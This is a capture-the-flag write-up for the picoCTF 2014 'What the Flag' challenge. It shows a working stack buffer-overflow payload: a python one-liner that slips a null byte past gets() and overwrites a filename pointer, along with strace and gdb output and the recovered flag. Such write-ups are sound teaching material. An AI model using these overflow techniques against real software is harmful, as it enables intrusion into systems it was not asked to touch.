 # Pico CTF 2014 : What the Flag

**Category:** Binary Exploitation
**Points:** 140
**Description:**

>This binary uses stack cookies to prevent exploitation, but all hope is not lost. Read the flag from flag.txt anyways! The binary can be found at /home/what_the_flag/ on the shell server. You can solve this problem interactively [here](https://picoctf.com/problem-static/binary/WhatTheFlag/what_the_flag.html
). The source can be found [here](what_the_flag.c).

**Hint:**
>How can you enter a correct password, but still overflow the buffer? Think about what terminates gets(). Also, the file name that you want to open is already in the binary!

## Write-up

As per the hint, what terminates `gets()` is a null byte. Thus, we can still
cause an overflow like so:
```
python -c 'print "1337_P455W0RD\x00" + "AA" + "BBBB"' | strace ./what_the_flag
...
open(0x42424242, O_RDONLY)              = -1 EFAULT (Bad address)
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
```

As demonstrated by `strace`, we need two bytes of padding after our password
and a null byte, and then we control the pointer to the filename!

The hint also says that the name of the file we want is already in the binary.
"not_the_flag.txt" is in the binary, which means that we can just jump to the
part that says "flag.txt" and not use the first part!
```
/home/what_the_flag$ gdb -q ./what_the_flag
Reading symbols from ./what_the_flag...(no debugging symbols found)...done.
(gdb) b*main
Breakpoint 1 at 0x8048611
(gdb) r
Starting program: /home/what_the_flag/what_the_flag

Breakpoint 1, 0x08048611 in main ()
(gdb) find 0x08048300, +9999, "flag.txt"
0x804877f
0x804977f
2 patterns found.
```
Either of the addresses, if supplied, will give us what we want. I'll just use
the first one.
```
python -c 'print "1337_P455W0RD\x00" + "AA" + "\x7f\x87\x04\x08"' |
./what_the_flag
Enter your password too see the message:
Congratulations! Here is the flag: who_needs_%eip
```
## Other write-ups and resources

* <https://ctf-team.vulnhub.com/picoctf-2014-what-the-flag/>
